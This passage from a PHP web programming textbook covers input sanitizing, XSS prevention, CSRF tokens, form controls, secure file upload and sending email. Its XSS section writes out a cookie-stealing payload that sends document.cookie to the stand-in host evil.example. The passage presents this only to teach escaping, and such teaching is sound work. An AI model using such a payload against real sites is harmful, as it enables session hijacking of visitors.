| `FILTER_SANITIZE_STRING` | **Deprecated in PHP 8.1. Do not use.** Use `htmlspecialchars()` on output instead. |

**Example 4.14: Sanitize filters**

```php
<?php
echo filter_var("ram<>@exa mple.com", FILTER_SANITIZE_EMAIL), "\n";
echo filter_var("https://pu.edu.np/ notes", FILTER_SANITIZE_URL), "\n";
echo filter_var("98-41a23b", FILTER_SANITIZE_NUMBER_INT), "\n";
echo filter_var("12.5kg", FILTER_SANITIZE_NUMBER_FLOAT, FILTER_FLAG_ALLOW_FRACTION), "\n";
echo filter_var("<b>Hi</b>", FILTER_SANITIZE_FULL_SPECIAL_CHARS), "\n";
echo strip_tags("<b>Sita</b> <i>Karki</i>"), "\n";
echo "[" . trim("   Pokhara  ") . "]", "\n";
```

**Output** (run from the command line, `php sanitize.php`):

```
ram@example.com
https://pu.edu.np/notes
98-4123
12.5
&lt;b&gt;Hi&lt;/b&gt;
Sita Karki
[Pokhara]
```

> **Note:** Sanitizing alone is not validation. `FILTER_SANITIZE_EMAIL` turned `ram<>@exa mple.com` into a nice-looking address, but the user never typed that address. Usually it is better to **validate and reject** than to silently change what the user typed.

#### Reading input with `filter_input()`

**Example 4.15: Reading and validating a POST field in one step**

```php
<?php
// form field: <input type="text" name="age">
$age = filter_input(INPUT_POST, 'age', FILTER_VALIDATE_INT,
        ['options' => ['min_range' => 16, 'max_range' => 60]]);

if ($age === null) {
    echo "Age was not submitted.";
} elseif ($age === false) {
    echo "Age must be a whole number between 16 and 60.";
} else {
    echo "Age accepted: $age";
}
```

**Output:**

```
age = 20   ->  Age accepted: 20
age = 12   ->  Age must be a whole number between 16 and 60.
age = abc  ->  Age must be a whole number between 16 and 60.
(no field) ->  Age was not submitted.
```

### 4.4.6 Cross-Site Scripting (XSS) and `htmlspecialchars()`

**Cross-Site Scripting (XSS)** happens when an attacker manages to put their own HTML/JavaScript into a page that other users view. The browser cannot tell the difference between the site's script and the injected one, so it runs it. The attacker can steal session cookies (and log in as the victim), change page content, show fake login boxes, or redirect users.

**Example 4.16: An XSS-vulnerable guestbook (DO NOT do this)**

```php
<?php
// UNSAFE: prints user input directly
$comment = $_POST['comment'] ?? '';
echo "<p>Latest comment: $comment</p>";
```

If an attacker submits:

```html
<script>alert('Hacked')</script>
```

**Output:** the browser shows a popup saying **Hacked**. A real attacker would write something like `<script>fetch('https://evil.example/?c='+document.cookie)</script>` to steal cookies.

**The fix: escape on output with `htmlspecialchars()`**

`htmlspecialchars()` converts characters that have special meaning in HTML into **HTML entities**, so the browser displays them as text instead of running them.

| Character | Becomes |
|---|---|
| `&` | `&amp;` |
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `'` | `&#039;` (with `ENT_QUOTES`, the default since PHP 8.1) |

**Example 4.17: The safe version**

```php
<?php
$comment = "<script>alert('Hacked')</script>";

// ENT_QUOTES escapes both quote types; UTF-8 is the encoding.
$safe = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

echo $safe;
```

**Output** (page source):

```
&lt;script&gt;alert(&#039;Hacked&#039;)&lt;/script&gt;
```

The browser **displays** the text `<script>alert('Hacked')</script>` literally, and no script runs.

A short helper function saves typing in templates:

```php
<?php
function e(?string $value): string
{
    return htmlspecialchars($value ?? '', ENT_QUOTES, 'UTF-8');
}
// usage: <p><?= e($comment) ?></p>
```

> **Common Mistake:** Escaping on input and then saving the escaped text in the database, or escaping twice (`&amp;lt;` appears on screen). The modern rule is: **store the raw (validated) data, escape at the moment of output** for the place where it is going: `htmlspecialchars()` for HTML, prepared statements for SQL, `urlencode()` for URLs.

> **Teacher's Note:** Run Example 4.16 and 4.17 side by side. Then ask students: "What if the comment is saved in the database and shown to every visitor?" This leads to the idea of *stored* XSS, which affects every user, not just the attacker.

### 4.4.7 Complete example: registration form with error array

This brings together self-processing, sticky values, validation, and per-field error messages. All errors are collected in an **associative array** `$errors` keyed by field name. If the array is empty after all checks, the data is valid.

**Example 4.18: Student registration form**

`register.php`

```php
<?php
$errors = [];
$data = ['name' => '', 'email' => '', 'phone' => '', 'age' => '', 'website' => ''];
$success = false;

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // 1. Collect and trim
    foreach ($data as $key => $v) {
        $data[$key] = trim($_POST[$key] ?? '');
    }
    $password = $_POST['password'] ?? '';
    $confirm  = $_POST['confirm'] ?? '';

    // 2. Validate each field
    if ($data['name'] === '') {
        $errors['name'] = 'Name is required.';
    } elseif (!preg_match('/^[A-Za-z ]{3,50}$/', $data['name'])) {
        $errors['name'] = 'Use 3-50 letters and spaces only.';
    }

    if ($data['email'] === '') {
        $errors['email'] = 'Email is required.';
    } elseif (filter_var($data['email'], FILTER_VALIDATE_EMAIL) === false) {
        $errors['email'] = 'Enter a valid email address.';
    }

    if (!preg_match('/^9[678]\d{8}$/', $data['phone'])) {
        $errors['phone'] = 'Enter a 10-digit mobile number starting with 96/97/98.';
    }

    $opts = ['options' => ['min_range' => 16, 'max_range' => 60]];
    if (filter_var($data['age'], FILTER_VALIDATE_INT, $opts) === false) {
        $errors['age'] = 'Age must be a number from 16 to 60.';
    }

    // Website is optional: validate only if filled
    if ($data['website'] !== '' && filter_var($data['website'], FILTER_VALIDATE_URL) === false) {
        $errors['website'] = 'Enter a full URL, e.g. https://example.com';
    }

    if (!preg_match('/^(?=.*[A-Za-z])(?=.*\d).{8,}$/', $password)) {
        $errors['password'] = 'Password: at least 8 characters with a letter and a digit.';
    } elseif ($password !== $confirm) {
        $errors['confirm'] = 'Passwords do not match.';
    }

    // 3. If no errors, process
    if (empty($errors)) {
        $hash = password_hash($password, PASSWORD_DEFAULT);
        // Save $data and $hash to the database with a prepared statement (Unit 5)
        $success = true;
    }
}

function e(string $v): string { return htmlspecialchars($v, ENT_QUOTES, 'UTF-8'); }
function err(array $errors, string $field): string {
    return isset($errors[$field]) ? '<span class="error">' . e($errors[$field]) . '</span>' : '';
}
?>
<!DOCTYPE html>
<html>
<head>
    <title>Student Registration</title>
    <style>.error { color: red; font-size: 0.9em; } label { display:block; margin-top:8px; }</style>
</head>
<body>
<?php if ($success): ?>
    <h3>Registration successful. Welcome, <?= e($data['name']) ?>!</h3>
<?php else: ?>
    <h3>Student Registration</h3>
    <form method="post" action="<?= e($_SERVER['PHP_SELF']) ?>" novalidate>
        <label>Full name: <input type="text" name="name" value="<?= e($data['name']) ?>"></label>
        <?= err($errors, 'name') ?>
        <label>Email: <input type="email" name="email" value="<?= e($data['email']) ?>"></label>
        <?= err($errors, 'email') ?>
        <label>Mobile: <input type="text" name="phone" value="<?= e($data['phone']) ?>"></label>
        <?= err($errors, 'phone') ?>
        <label>Age: <input type="number" name="age" value="<?= e($data['age']) ?>"></label>
        <?= err($errors, 'age') ?>
        <label>Website (optional): <input type="url" name="website" value="<?= e($data['website']) ?>"></label>
        <?= err($errors, 'website') ?>
        <label>Password: <input type="password" name="password"></label>
        <?= err($errors, 'password') ?>
        <label>Confirm password: <input type="password" name="confirm"></label>
        <?= err($errors, 'confirm') ?>
        <button type="submit">Register</button>
    </form>
<?php endif; ?>
</body>
</html>
```

(The `novalidate` attribute turns off the browser's own HTML5 checks so you can test the PHP validation. Remove it in production to get both layers.)

**Output** (submitting name `Anil 7`, email `anil@mail`, phone `98412`, age `14`, website empty, password `abc`):

```
Student Registration
Full name: [Anil 7]
  Use 3-50 letters and spaces only.
Email: [anil@mail]
  Enter a valid email address.
Mobile: [98412]
  Enter a 10-digit mobile number starting with 96/97/98.
Age: [14]
  Age must be a number from 16 to 60.
Website (optional): [ ]
Password: [ ]
  Password: at least 8 characters with a letter and a digit.
Confirm password: [ ]
```

**Output** (with all fields correct, e.g. `Anil Shrestha`, `anil@gmail.com`, `9841234567`, `20`, password `Nepal2025` twice):

```
Registration successful. Welcome, Anil Shrestha!
```

> **Note on `anil@mail`:** `FILTER_VALIDATE_EMAIL` rejects it because the domain has no dot. (HTML5 `type="email"` would actually accept it, another reason the server check matters.)

### 4.4.8 CSRF tokens (brief)

**Cross-Site Request Forgery (CSRF)** tricks a logged-in user's browser into submitting a form to your site from another (malicious) site. Because the browser automatically sends the user's session cookie, your site thinks the request is genuine (for example, "change email" or "transfer money").

**Defence:** put a secret random **token** in a hidden field, store the same token in the session, and check that they match when the form is submitted. The attacker's site cannot read your page, so it cannot know the token.

**Example 4.19: Adding a CSRF token**

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));   // 64 hex characters
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $sent = $_POST['csrf_token'] ?? '';
    if (!hash_equals($_SESSION['csrf_token'], $sent)) {
        http_response_code(403);
        exit('Invalid request (CSRF check failed).');
    }
    echo "Form accepted.";
}
?>
<form method="post" action="">
    <input type="hidden" name="csrf_token" value="<?= $_SESSION['csrf_token'] ?>">
    <input type="text" name="email">
    <button type="submit">Update email</button>
</form>
```

**Output:** a normal submit prints `Form accepted.`; a forged request without the correct token prints `Invalid request (CSRF check failed).`

Sessions are covered in detail in a later unit; for now just remember: **every form that changes data should carry a CSRF token.** `hash_equals()` compares strings in constant time, which avoids timing attacks.

---

## 4.5 Dealing with checkbox, radio button and list

### 4.5.1 How these controls are submitted

| Control | What is sent | PHP receives |
|---|---|---|
| Radio group (same `name`) | Only the **selected** one's `value` | A string, e.g. `$_POST['gender'] = 'female'` |
| Single checkbox | Its `value` **only if ticked** (default value `"on"` if none given) | String if ticked; **key missing** if not ticked |
| Checkbox group with `name="hobbies[]"` | Values of all ticked boxes | An **array**, e.g. `['Reading', 'Football']`; key missing if none ticked |
| `<select>` (single) | The selected option's `value` | A string |
| `<select name="subjects[]" multiple>` | All selected options | An **array** |

Key points:

- An **unticked checkbox sends nothing**. Always use `isset()` or `?? []`.
- The square brackets `[]` in the name tell PHP to collect multiple values into an array. Without them, only the **last** ticked value is kept.

> **Common Mistake:** Writing `<input type="checkbox" name="hobbies" value="Reading">` for a group. If the user ticks three boxes, `$_POST['hobbies']` holds only the last one. **Correct:** `name="hobbies[]"`.

### 4.5.2 Validating against an allowed list

The user can edit the HTML and send **any** value, for example `gender=admin` or `hobbies[]=<script>`. So for radios, checkboxes and selects, always check that each submitted value is one of the allowed options, using `in_array($value, $allowed, true)` (the `true` means strict comparison).

**Example 4.20: Radio, checkbox group and multiple select**

`profile.php`

```php
<?php
$allowedLevels   = ['Beginner', 'Intermediate', 'Advanced'];
$allowedHobbies  = ['Reading', 'Football', 'Music', 'Trekking'];
$allowedSubjects = ['PHP', 'Java', 'Python', 'Database'];

$level = $_POST['level'] ?? '';
$hobbies  = $_POST['hobbies'] ?? [];      // array or missing
$subjects = $_POST['subjects'] ?? [];
$errors = [];

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!in_array($level, $allowedLevels, true)) {
        $errors[] = 'Please choose a valid level.';
    }
    // Make sure we really received arrays, then check every element
    if (!is_array($hobbies) || array_diff($hobbies, $allowedHobbies)) {
        $errors[] = 'Invalid hobby selected.';
        $hobbies = [];
    }
    if (!is_array($subjects) || count($subjects) < 2
        || array_diff($subjects, $allowedSubjects)) {
        $errors[] = 'Select at least two valid subjects.';
        $subjects = is_array($subjects) ? $subjects : [];
    }

    if (!$errors) {
        echo "<p>Level: " . htmlspecialchars($level) . "</p>";
        echo "<p>Hobbies: " . ($hobbies ? htmlspecialchars(implode(', ', $hobbies)) : 'None') . "</p>";
        echo "<p>Subjects: " . htmlspecialchars(implode(', ', $subjects)) . "</p>";
    }
}
foreach ($errors as $e) {
    echo '<p style="color:red">' . htmlspecialchars($e) . '</p>';
}
?>
<form method="post" action="">
    <p>Programming level:
    <?php foreach ($allowedLevels as $l): ?>
        <label><input type="radio" name="level" value="<?= $l ?>"
            <?= $level === $l ? 'checked' : '' ?>> <?= $l ?></label>
    <?php endforeach; ?></p>

    <p>Hobbies:
    <?php foreach ($allowedHobbies as $h): ?>
        <label><input type="checkbox" name="hobbies[]" value="<?= $h ?>"
            <?= in_array($h, $hobbies, true) ? 'checked' : '' ?>> <?= $h ?></label>
    <?php endforeach; ?></p>

    <p>Subjects (hold Ctrl to choose many):<br>
    <select name="subjects[]" multiple size="4">
        <?php foreach ($allowedSubjects as $s): ?>
            <option value="<?= $s ?>" <?= in_array($s, $subjects, true) ? 'selected' : '' ?>><?= $s ?></option>
        <?php endforeach; ?>
    </select></p>
    <button type="submit">Save</button>
</form>
```

**Output** (choosing Intermediate, ticking Reading and Trekking, selecting PHP and Database):

```
Level: Intermediate
Hobbies: Reading, Trekking
Subjects: PHP, Database
[form shown again with the same choices ticked/selected]
```

**Output** (choosing only one subject):

```
Select at least two valid subjects.
```

How `array_diff($hobbies, $allowedHobbies)` works: it returns the values in `$hobbies` that are **not** in the allowed list. An empty array is falsy, so "no difference" means "all values are allowed".

> **Teacher's Note:** Open Developer Tools, change a checkbox value to `Hacking`, and submit. The "Invalid hobby selected" error proves why server-side checking of fixed lists is necessary even though the user "can only click the given options".

> **Exam Tip:** A frequent programming question is "Write a PHP program to display the hobbies selected by the user using checkboxes." Remember three things: `name="hobbies[]"`, `$_POST['hobbies'] ?? []`, and loop or `implode()` to print them with `htmlspecialchars()`.

---

## 4.6 File Upload

### 4.6.1 Requirements for a file upload form

File upload lets users send files (profile photos, assignments, CVs) to the server. The form needs three things:

1. `method="post"` (GET cannot carry files).
2. `enctype="multipart/form-data"` (without this, only the file **name** is sent, not its content).
3. An `<input type="file" name="...">`.

```html
<form action="upload.php" method="post" enctype="multipart/form-data">
    <input type="file" name="photo" accept="image/jpeg,image/png">
    <button type="submit">Upload</button>
</form>
```

The `accept` attribute only filters the browser's file dialog. It is **not** a security check.

### 4.6.2 How an upload works



The temporary file is deleted automatically when the script ends, so you must **move** it to a permanent folder if you want to keep it.

### 4.6.3 The `$_FILES` array

For `<input type="file" name="photo">`, PHP fills `$_FILES['photo']` with five keys (six in PHP 8.1+):

| Key | Meaning | Example | Trust it? |
|---|---|---|---|
| `name` | Original file name on the user's computer | `my photo.jpg` | **No**, user-controlled |
| `full_path` | Full path for folder uploads (PHP 8.1+) | `my photo.jpg` | No |
| `type` | MIME type **reported by the browser** | `image/jpeg` | **No**, easily faked |
| `tmp_name` | Location of the temporary file on the server | `C:\xampp\tmp\php1A2B.tmp` | Yes (set by PHP) |
| `error` | Error code (see below) | `0` | Yes |
| `size` | Size in bytes | `245760` | Yes |

**Example 4.21: Inspecting `$_FILES`**

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    echo '<pre>';
    print_r($_FILES['photo']);
    echo '</pre>';
}
```

**Output** (uploading `everest.jpg` on XAMPP, PHP 8.2):

```
Array
(
    [name] => everest.jpg
    [full_path] => everest.jpg
    [type] => image/jpeg
    [tmp_name] => C:\xampp\tmp\php8F3C.tmp
    [error] => 0
    [size] => 245760
)
```

### 4.6.4 Upload error codes

| Value | Constant | Meaning |
|---|---|---|
| 0 | `UPLOAD_ERR_OK` | No error, upload succeeded |
| 1 | `UPLOAD_ERR_INI_SIZE` | File is larger than `upload_max_filesize` in php.ini |
| 2 | `UPLOAD_ERR_FORM_SIZE` | File is larger than the `MAX_FILE_SIZE` hidden field in the form |
| 3 | `UPLOAD_ERR_PARTIAL` | File was only partially uploaded |
| 4 | `UPLOAD_ERR_NO_FILE` | No file was selected |
| 6 | `UPLOAD_ERR_NO_TMP_DIR` | Temporary folder is missing |
| 7 | `UPLOAD_ERR_CANT_WRITE` | Failed to write the file to disk |
| 8 | `UPLOAD_ERR_EXTENSION` | A PHP extension stopped the upload |

(There is no code 5.)

### 4.6.5 Security checks for uploads

A careless upload script is one of the most dangerous holes in a website. If an attacker uploads `shell.php` into a web-accessible folder and then opens `http://site/uploads/shell.php`, the server runs their code and they control the site. Apply **all** of these checks:

| # | Check | How | Why |
|---|---|---|---|
| 1 | Error code is OK | `$file['error'] === UPLOAD_ERR_OK` | Catch failed or empty uploads |
| 2 | Really an uploaded file | `is_uploaded_file($file['tmp_name'])` (also done by `move_uploaded_file`) | Stops tricks that point to other server files |
| 3 | Size limit | `$file['size'] <= 2 * 1024 * 1024` | Avoid filling the disk |
| 4 | **Real** MIME type | `(new finfo(FILEINFO_MIME_TYPE))->file($file['tmp_name'])` | Reads the file's actual bytes ("magic numbers"). **Never trust `$file['type']`** |
| 5 | Extension whitelist | `strtolower(pathinfo($file['name'], PATHINFO_EXTENSION))` in `['jpg','jpeg','png']` | Blocks `.php`, `.phtml`, `.exe` |
| 6 | Image check | `getimagesize($file['tmp_name'])` returns `false` for non-images; also gives width and height | Confirms it is a real image; lets you limit dimensions |
| 7 | New unique name | `bin2hex(random_bytes(8)) . '.jpg'` | Prevents overwriting, path tricks (`../../`), and odd characters |
| 8 | Safe destination | Store outside the web root, or in a folder where PHP execution is disabled | Even if something slips through, it cannot be executed |

> **Common Mistake:** Checking only `$_FILES['photo']['type'] == 'image/jpeg'`. The browser (or an attacker using a tool) sets this value. A PHP script renamed or sent with `Content-Type: image/jpeg` passes this check. **Correct:** use `finfo` to detect the real type, *and* whitelist the extension.

> **Common Mistake:** Using a **blacklist** ("reject .php"). Attackers use `.php5`, `.phtml`, `.PHP`, `shell.php.` and so on. Always use a **whitelist** of allowed extensions.

### 4.6.6 php.ini settings for uploads

| Directive | Default | Meaning |
|---|---|---|
| `file_uploads` | `On` | Allow HTTP file uploads at all |
| `upload_max_filesize` | `2M` | Maximum size of **one** uploaded file |
| `post_max_size` | `8M` | Maximum size of the **whole** POST body (all files + fields). Must be larger than `upload_max_filesize` |
| `max_file_uploads` | `20` | Maximum number of files in one request |
| `upload_tmp_dir` | system temp | Where temporary files are stored |
| `max_execution_time` / `max_input_time` | `30` / `60` sec | Large uploads on slow links may need more time |

In XAMPP, edit `C:\xampp\php\php.ini` (or click **Config → PHP (php.ini)** in the XAMPP Control Panel) and **restart Apache** after changes. You can check the current values with `echo ini_get('upload_max_filesize');` or `phpinfo();`.

> **Note:** If the request is bigger than `post_max_size`, PHP throws away **everything**: both `$_POST` and `$_FILES` are empty, and you cannot even read the error code. Your script should handle this case (check `empty($_FILES)` when `REQUEST_METHOD` is POST).

### 4.6.7 Complete example: secure image upload (Lab)

Folder structure:

```
htdocs/unit4/
├── upload.php
└── uploads/        <- create this folder (must be writable)
```

**Example 4.22: Secure profile photo upload**

`upload.php`

```php
<?php
const MAX_SIZE = 2 * 1024 * 1024;               // 2 MB
const ALLOWED = [                               // real MIME type => extension
    'image/jpeg' => 'jpg',
    'image/png'  => 'png',
    'image/gif'  => 'gif',
];
$uploadDir = __DIR__ . '/uploads/';
$errors = [];
$savedFile = '';

$uploadMessages = [
    UPLOAD_ERR_INI_SIZE   => 'File is larger than the server limit.',
    UPLOAD_ERR_FORM_SIZE  => 'File is larger than the form limit.',
    UPLOAD_ERR_PARTIAL    => 'File was only partially uploaded. Try again.',
    UPLOAD_ERR_NO_FILE    => 'Please choose a file.',
    UPLOAD_ERR_NO_TMP_DIR => 'Server error: missing temp folder.',
    UPLOAD_ERR_CANT_WRITE => 'Server error: cannot write file.',
    UPLOAD_ERR_EXTENSION  => 'Upload blocked by a server extension.',
];

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (empty($_FILES) && empty($_POST)) {
        $errors[] = 'The upload is too large (exceeds post_max_size).';
    } elseif (!isset($_FILES['photo']['error']) || is_array($_FILES['photo']['error'])) {
        $errors[] = 'Invalid upload request.';      // missing field or photo[] trick
    } elseif ($_FILES['photo']['error'] !== UPLOAD_ERR_OK) {
        $errors[] = $uploadMessages[$_FILES['photo']['error']] ?? 'Unknown upload error.';
    } else {
        $file = $_FILES['photo'];

        // 1. Size check
        if ($file['size'] > MAX_SIZE) {
            $errors[] = 'File must be 2 MB or smaller.';
        }

        // 2. Real MIME type from file content (NOT $file['type'])
        $finfo = new finfo(FILEINFO_MIME_TYPE);
        $mime  = $finfo->file($file['tmp_name']);
        if (!array_key_exists($mime, ALLOWED)) {
            $errors[] = 'Only JPG, PNG and GIF images are allowed.';
        }

        // 3. Extension whitelist
        $ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
        if (!in_array($ext, ['jpg', 'jpeg', 'png', 'gif'], true)) {
            $errors[] = 'Invalid file extension.';
        }

        // 4. Confirm it is a real image and check dimensions
        $info = getimagesize($file['tmp_name']);
        if ($info === false) {
            $errors[] = 'The file is not a valid image.';
        } elseif ($info[0] > 3000 || $info[1] > 3000) {
            $errors[] = 'Image must be at most 3000 x 3000 pixels.';
        }

        // 5. Move with a new unique name
        if (!$errors) {
            $newName = bin2hex(random_bytes(8)) . '.' . ALLOWED[$mime];
            if (move_uploaded_file($file['tmp_name'], $uploadDir . $newName)) {
                $savedFile = $newName;
            } else {
                $errors[] = 'Could not save the file. Check folder permissions.';
            }
        }
    }
}
?>
<!DOCTYPE html>
<html>
<head><title>Upload Profile Photo</title></head>
<body>
    <h3>Upload Profile Photo</h3>
    <?php foreach ($errors as $e): ?>
        <p style="color:red"><?= htmlspecialchars($e) ?></p>
    <?php endforeach; ?>

    <?php if ($savedFile): ?>
        <p style="color:green">Uploaded successfully as <?= htmlspecialchars($savedFile) ?></p>
        " width="200" alt="Profile photo">
    <?php endif; ?>

    <form action="" method="post" enctype="multipart/form-data">
        <input type="hidden" name="MAX_FILE_SIZE" value="2097152">
        <input type="file" name="photo" accept="image/jpeg,image/png,image/gif">
        <button type="submit">Upload</button>
    </form>
</body>
</html>
```

**Output** (uploading a valid 240 KB `everest.jpg`):

```
Upload Profile Photo
Uploaded successfully as 3f9a1c7be04d52e8.jpg
[the photo is displayed, 200 px wide]
```

(The 16-character name is random, so it is different every time.)

**Output** (uploading `notes.php` renamed to `notes.jpg`):

```
Upload Profile Photo
Only JPG, PNG and GIF images are allowed.
The file is not a valid image.
```

The extension `.jpg` passed the whitelist, but `finfo` read the actual content (`text/x-php`) and `getimagesize()` found no image data, so the file was rejected.

**Output** (a 5 MB photo, with the default `upload_max_filesize = 2M`):

```
Upload Profile Photo
File is larger than the server limit.
```

Points to notice in the code:

- The final extension comes from the **detected MIME type** (`ALLOWED[$mime]`), not from the user's file name.
- `move_uploaded_file()` only moves files that PHP itself received through an HTTP upload, which makes it safer than `rename()` or `copy()`. It returns `true` on success and `false` on failure.
- The `MAX_FILE_SIZE` hidden field (in bytes) must come **before** the file input. It is only a hint for PHP/browser; the real limits are the php.ini settings and your own `size` check.
- In a real application, store the new file name in the database next to the user's record (for example, a `photo` column in a `students` table).

> **Teacher's Note:** This is a syllabus lab. Give students the form first, let them build the checks one at a time (error code → size → finfo → extension → getimagesize → unique name), and test each step with a bad file: a large photo, a `.txt` renamed to `.jpg`, and no file at all. Budget a full lab session (about 90 minutes).

> **Beyond the syllabus:** To stop PHP files from ever running inside `uploads/` on Apache, place an `.htaccess` file there containing `php_flag engine off` (mod_php) or deny access to `.php` files. Better still, keep uploads outside `htdocs` and serve them through a PHP script.

### 4.6.8 Uploading multiple files (short)

With `<input type="file" name="docs[]" multiple>`, `$_FILES['docs']` is arranged **by key first**: `$_FILES['docs']['name'][0]`, `$_FILES['docs']['name'][1]`, `$_FILES['docs']['tmp_name'][0]`, and so on. Loop over the indexes:

**Example 4.23: Listing several uploaded files**

```php
<?php
// form: <input type="file" name="docs[]" multiple>
if (!empty($_FILES['docs']['name'][0])) {
    $count = count($_FILES['docs']['name']);
    for ($i = 0; $i < $count; $i++) {
        $name = $_FILES['docs']['name'][$i];
        $size = $_FILES['docs']['size'][$i];
        $err  = $_FILES['docs']['error'][$i];
        echo htmlspecialchars($name) . " - " . round($size / 1024) . " KB - error $err<br>";
        // apply the same checks as Example 4.22 to each file, then move_uploaded_file
    }
}
```

**Output** (uploading two PDFs):

```
assignment1.pdf - 120 KB - error 0
assignment2.pdf - 98 KB - error 0
```

> **Exam Tip:** For "Write a PHP script to upload an image file with validation", examiners look for: `enctype="multipart/form-data"`, the `$_FILES` keys, the error check, size check, type check (mention `finfo`, not `$_FILES['type']`), extension whitelist, and `move_uploaded_file()`. Also list the php.ini directives `upload_max_filesize` and `post_max_size`.

---

## 4.7 Send Email

Websites send email for many reasons: registration confirmation, password reset links, order receipts, and contact-form messages to the site owner. PHP can send email in two common ways:

| Basis | `mail()` function | PHPMailer library |
|---|---|---|
| Installation | Built in | Install with Composer (`composer require phpmailer/phpmailer`) |
| How it sends | Hands the message to the server's mail program (sendmail on Linux, or an SMTP server set in php.ini) | Connects directly to any SMTP server (Gmail, Outlook, hosting provider) |
| SMTP authentication | Not supported directly | Supported (username/password, app password) |
| Encryption (TLS/SSL) | No | Yes |
| HTML email, attachments | Possible but you must build MIME headers by hand | Easy: `isHTML()`, `addAttachment()` |
| Error messages | Only `true`/`false` | Detailed `ErrorInfo` and exceptions |
| Works on XAMPP out of the box | No, needs SMTP/sendmail configuration | Yes, once you have SMTP credentials |
| Delivery to inbox | Often marked as spam | Much better (authenticated sender) |
| Recommended? | For simple tests on a configured server | **Yes, for real projects** |

### 4.7.1 The `mail()` function

**Syntax:**

```
mail(string $to, string $subject, string $message,
     array|string $additional_headers = [], string $additional_params = ""): bool
```

| Parameter | Meaning |
|---|---|
| `$to` | Receiver's address, e.g. `"principal@college.edu.np"` |
| `$subject` | Subject line (must not contain newlines) |
| `$message` | Body. Lines should be at most 70 characters; use `wordwrap()` |
| `$additional_headers` | Extra headers such as `From`, `Reply-To`, `Cc`, `Content-Type`. Since PHP 7.2 this can be an array |
| Return value | `true` if the message was **accepted for delivery** (not a guarantee it arrived), `false` otherwise |

**Example 4.24: Sending a plain-text email with `mail()`**

```php
<?php
$to      = 'student@example.com';
$subject = 'Exam Routine Published';
$message = "Dear Student,\n\nThe semester-end exam routine has been published "
         . "on the college notice board. Please check it today.\n\nRegards,\nExam Section";
$message = wordwrap($message, 70);

$headers = [
    'From'         => 'Exam Section <exam@college.edu.np>',
    'Reply-To'     => 'exam@college.edu.np',
    'Content-Type' => 'text/plain; charset=UTF-8',
    'X-Mailer'     => 'PHP/' . phpversion(),
];

if (mail($to, $subject, $message, $headers)) {
    echo "Email accepted for delivery.";
} else {
    echo "Email could not be sent. Check the mail configuration.";
}
```

**Output** (on a server with mail configured): `Email accepted for delivery.`
**Output** (on a fresh XAMPP install): a warning like `mail(): Failed to connect to mailserver at "localhost" port 25` followed by `Email could not be sent. Check the mail configuration.`

To send **HTML** email with `mail()`, add the headers `'MIME-Version' => '1.0'` and `'Content-Type' => 'text/html; charset=UTF-8'`, and write HTML in `$message`.

#### Configuring `mail()` on XAMPP (Windows)

On Windows, `mail()` does not work until you tell PHP how to send mail. XAMPP includes a small helper program, **sendmail**, which forwards mail to a real SMTP server such as Gmail.

1. In `C:\xampp\php\php.ini`, find the `[mail function]` section and set:

```ini
[mail function]
; SMTP = localhost
; smtp_port = 25
sendmail_path = "\"C:\xampp\sendmail\sendmail.exe\" -t"
```

2. In `C:\xampp\sendmail\sendmail.ini`, set:

```ini
[sendmail]
smtp_server=smtp.gmail.com
smtp_port=587
smtp_ssl=tls
auth_username=yourname@gmail.com
auth_password=your-16-character-app-password
force_sender=yourname@gmail.com
```

3. Restart Apache.

This works, but the setup is fiddly and errors are hard to debug. That is why PHPMailer is recommended.

### 4.7.2 PHPMailer with SMTP (recommended)

**PHPMailer** is the most widely used email library for PHP. It talks to an SMTP server directly, supports authentication and encryption, gives clear error messages, and makes HTML email and attachments easy.

#### Step 1: Install with Composer

**Composer** is PHP's dependency manager (download it from getcomposer.org). In your project folder run:

```bash
composer require phpmailer/phpmailer
```

This creates a `vendor/` folder and `vendor/autoload.php`, which loads the library automatically.

#### Step 2: Get SMTP credentials (Gmail example)

Gmail does not allow your normal password for apps. You need an **App Password**:

1. Turn on **2-Step Verification** for your Google account.
2. Go to Google Account → Security → **App passwords**, create one (name it "XAMPP PHP").
3. Copy the 16-character password. Use it only in your server code, never commit it to GitHub.

Gmail SMTP settings: host `smtp.gmail.com`, port `587` with STARTTLS (or `465` with SMTPS).

#### Step 3: Send the email

**Example 4.25: Sending email with PHPMailer and Gmail SMTP**

`send_mail.php`

```php
<?php
use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\Exception;

require __DIR__ . '/vendor/autoload.php';

$mail = new PHPMailer(true);          // true = throw exceptions on errors

try {
    // Server settings
    $mail->isSMTP();
    $mail->Host       = 'smtp.gmail.com';
    $mail->SMTPAuth   = true;
    $mail->Username   = 'yourname@gmail.com';
    $mail->Password   = 'abcd efgh ijkl mnop';      // App Password, not your login password
    $mail->SMTPSecure = PHPMailer::ENCRYPTION_STARTTLS;
    $mail->Port       = 587;
    $mail->CharSet    = 'UTF-8';

    // Sender and recipient
    $mail->setFrom('yourname@gmail.com', 'BCSIT Admission Office');
    $mail->addAddress('kritika.rai@example.com', 'Kritika Rai');
    $mail->addReplyTo('admission@college.edu.np', 'Admission Office');

    // Content
    $mail->isHTML(true);
    $mail->Subject = 'Admission Confirmed';
    $mail->Body    = '<h3>Congratulations, Kritika!</h3><p>Your admission to BCSIT is confirmed.</p>';
    $mail->AltBody = 'Congratulations, Kritika! Your admission to BCSIT is confirmed.';
    // $mail->addAttachment(__DIR__ . '/files/fee-structure.pdf');

    $mail->send();
    echo 'Message has been sent.';
} catch (Exception $e) {
    echo 'Message could not be sent. Mailer Error: ' . $mail->ErrorInfo;
}
```

**Output** (correct credentials): `Message has been sent.`
**Output** (wrong password): `Message could not be sent. Mailer Error: SMTP Error: Could not authenticate.`

> **Common Mistake:** Hard-coding the Gmail password in a file that is pushed to GitHub. Bots scan GitHub for credentials within minutes. Keep secrets in a separate config file outside the web root (or in environment variables) and add it to `.gitignore`.

